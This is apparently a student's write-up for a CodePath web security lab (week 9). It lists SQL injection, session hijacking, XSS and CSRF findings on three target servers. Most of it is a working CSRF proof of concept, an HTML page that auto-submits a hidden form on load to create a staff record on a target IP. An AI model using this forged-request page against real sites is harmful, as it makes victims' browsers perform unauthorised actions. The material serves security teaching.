 #Code PAth Week 9

<br>##Blue
  <br>sql injection
  <br>session hijacking
<br>##Green
  <br>xss

<br>##Red
  <br>csrf
  ````````
<!doctype html>
<html lang="en">
    <body onload="document.createElement('form').submit.call(document.getElementById('csrf_form'))">
    <form id="csrf_form" name="csrf_form" action="https://35.184.88.145/red/public/staff/salespeople/new.php" method="post">
    <input type="hidden" name="csrf_token" value="randomstringheredontmindme" />
    <input type="hidden" name="first_name" value="round5" />

    <input type="hidden" name="last_name" value="fight" />

    <input type="hidden" name="phone" value="2-2-2-2" />

    <input type="hidden" name="email" value="wdadda@gmail.com" />
    <input id="submit" type="hidden" name="submit" value="Create"  />
  </form>
</html>
